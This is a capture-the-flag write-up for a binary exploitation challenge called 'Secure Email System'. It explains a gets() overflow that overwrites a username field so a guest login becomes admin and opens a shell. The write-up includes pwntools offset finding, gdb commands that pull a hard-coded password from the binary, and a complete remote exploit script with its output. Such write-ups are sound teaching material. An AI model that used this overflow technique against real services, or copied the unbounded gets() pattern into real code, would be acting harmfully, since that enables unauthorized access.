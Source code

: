 # Secure Email System v1.337 – CTF Writeup

**Category:** Pwn / Binary Exploitation  
**Difficulty:** Easy–Medium  

---

## Challenge Summary

We’re given a Linux ELF binary `email_server`.  
It implements a fake email system with two hardcoded logins:

```c
const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};
```

The `admin` account opens a shell, but login is “disabled”:

```c
if (strcmp(username, "admin") == 0) {
    printf("-> Admin login is disabled. Access denied.\n");
    exit(0);
}
```

The `guest` account just prints a fake email and exits.  
Passwords are compared using `strcmp(password, logins[i][1])`.

---

## Vulnerability Analysis

The relevant code:

```c
char password[32];
char username[32];

gets(password);
```

- `gets()` reads input into `password` **without bounds checking**.
- If we input more than 32 bytes, we overwrite `username`.
- The program checks for `"admin"` **before** reading the password.
- But after reading the password, it compares `username` again before calling `open_admin_session()`.

**Key idea:**
1. Start as `"guest"` so we pass the first check.
2. Overflow `password` to overwrite `username` with `"admin"`.
3. Set `password` to match the admin’s real password.

---

## Finding the Overflow Offset

We used pwntools’ `cyclic` pattern to find how many bytes from the start of `password` until `username` begins.

```python
from pwn import *
print(cyclic(64))
```

Run:

```bash
( printf "guest\n"; python3 pattern.py; echo; ) | ./email_server
```

Then find the offset:

```python
from pwn import *
print(cyclic_find('iaaa'))
```

Result: **32 bytes**.

---

## Extracting the Admin Password

We dumped the UTF-8 bytes from the binary using `gdb`:

```bash
nm -C ./email_server | grep logins
# logins is at 0x4020
```

```gdb
x/4gx 0x4020
# Second pointer (0x2447) is the admin password
x/32bx 0x2447
```

We get:

```
0xf0 0x9f 0x87 0xa6 0xf0 0x9f 0x87 0xa9
0xf0 0x9f 0x87 0xb2 0xf0 0x9f 0x87 0xae
0xf0 0x9f 0x87 0xb3 0x00 ...
```

This is `"🇦🇩🇲🇮🇳"`.

---

## Exploit

We craft:

```
[ password bytes + '\x00' + padding up to 32 bytes ]
[ "admin\x00" ]
```

This ensures:
- `password` matches the admin password.
- `username` becomes `"admin"` after overflow.

```python
#!/usr/bin/env python3
from pwn import *

# Local: p = process('./email_server')

HOST = ""
PORT = ""
p = remote(HOST, PORT) 

K = 32
admin_pass = bytes([
    0xf0,0x9f,0x87,0xa6,
    0xf0,0x9f,0x87,0xa9,
    0xf0,0x9f,0x87,0xb2,
    0xf0,0x9f,0x87,0xae,
    0xf0,0x9f,0x87,0xb3
])

payload = bytearray()
payload += admin_pass
payload += b'\x00'
payload += b'A' * (K - len(payload))
payload += b'admin\x00'

p.recvuntil(b"Enter your username: ")
p.sendline(b"guest")
p.recvuntil(b"Enter your password: ")
p.send(payload + b'\n')

p.interactive()
```

---

## Output

```
[+] Opening connection to HOST on port PORT: Done
-> Password correct. Access granted.
-> Admin login successful. Opening shell...
$ whoami
$ cat /flag.txt
DUCTF{...flag_here...}
```

---
